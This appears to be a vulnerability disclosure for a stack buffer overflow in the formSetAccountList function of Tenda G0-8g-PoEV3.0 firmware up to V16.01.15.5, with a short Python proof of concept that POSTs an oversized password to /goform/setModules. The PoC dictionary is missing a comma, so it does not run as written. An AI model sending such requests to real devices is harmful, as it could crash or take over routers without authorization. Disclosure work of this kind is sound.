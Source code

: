 # Tenda G0-8g-PoEV3.0 formSetAccountList
### Overview
vendor: Tenda

product: G0-8g-PoEV3.0

version: V16.01.15.5(3680) and before

type: Stack Overflow
### Vulnerability Description
Tenda G0-8g-PoEV3.0 V16.01.15.5(3680) were discovered to contain a stack overflow in the formSetAccountList function.
### Vulnerability details
In function formSetAccountList line 31、35, it reads in a user-provided parameter `password`, and the variable `String` is passed to the `SimpleEncryptToBase64` function without any length check, which may overflow the stack-based buffer `v17`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/G0-8g-poev30-1-2.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/setModules'
payload = {
    "userType": "admin"
    "password": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
